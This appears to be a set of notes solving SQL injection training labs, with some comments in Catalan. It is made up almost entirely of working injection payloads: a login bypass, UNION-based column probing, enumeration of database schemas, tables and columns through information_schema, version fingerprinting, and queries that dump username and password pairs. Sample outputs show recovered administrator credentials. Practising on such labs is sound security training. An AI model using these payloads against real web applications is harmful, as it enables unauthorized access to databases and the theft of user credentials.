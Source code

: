 ### **Lab 1**: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

    /filter?category=Gifts' or 1=1-- -'

## **Lab 2**: SQL injection vulnerability allowing login bypass
1. administrator'-- -

2. filter?category=Gifts' union select NULL, NULL, NULL-- -

3. filter?category=Gifts' union select NULL,'1M2wiY',NULL-- -

4. Llistar TOTES les Bases de Dades:
	filter?category=Gifts' union select schema_name,NULL from information_schema.schemata-- -
   Llistar TOTES les Taules de totes les BBDD:
	filter?category=Gifts' union select table_name,NULL from information_schema.tables-- -
   Llistar TOTES les Taules d'1 BDD:
	filter?category=Gifts' union select table_name,NULL from information_schema.tables where table_schema='public'-- -
   Llistar TOTES les Columnes d'una taula i una BDD en concret:
	filter?category=Gifts' union select column_name,NULL from information_schema.columns where table_schema='public' and table_name='users'-- -
   Llistar Dades de diferents maneres
	filter?category=Gifts' union select NULL,group_concat(username,':',password) from users-- -
	filter?category=Gifts' union select NULL,group_concat(username,0x3a,password) from users-- -     ---> Convertim els : en Hexadecimal
	filter?category=Gifts' union select NULL,group_concat(username,':',password) from users where username = 'admin'-- -
	filter?category=Gifts' union select NULL,group_concat(username,':',password) from users where username = '0x61646d696e'-- -    ---> Convertim la paraula 'admin' en Hexadecimal

	Convertir 'admin' en Hexadecimal ==> echo "admin" | tr -d '\n' | xxd -ps

 	SOLVED: filter?category=Gifts' union select username,password from users-- -
	SOLVED: filter?category=Gifts' union select NULL,username||':'||password from users-- -
	OUTPUT: administrator:ria9b2ri5pwga9fk2s41

6.  filter?category=Gifts' union select NULL,username||':'||password from users-- -
    OUTPUT: administrator/lt7elzdb9kleb4bdfy9f

7.  filter?category=Gifts' union select NULL,banner from v$version-- -

8.  filter?category=Lifestyle' union select NULL,@@version-- -

9. filter?category=Accessories' union select NULL,table_name from information_schema.tables where table_schema='public'-- -
	OUTPUT: users_mozxmt, products
   filter?category=Accessories' union select column_name,NULL from information_schema.columns where table_schema='public' and table_name='users_mozxmt'-- -
	OUTPUT: password_imfrmo, username_blbbus
   filter?category=Accessories' union select username_blbbus,password_imfrmo from users_mozxmt-- -
	OUTPUT: administrator/4osd4u3aeqkfxw5z3zvk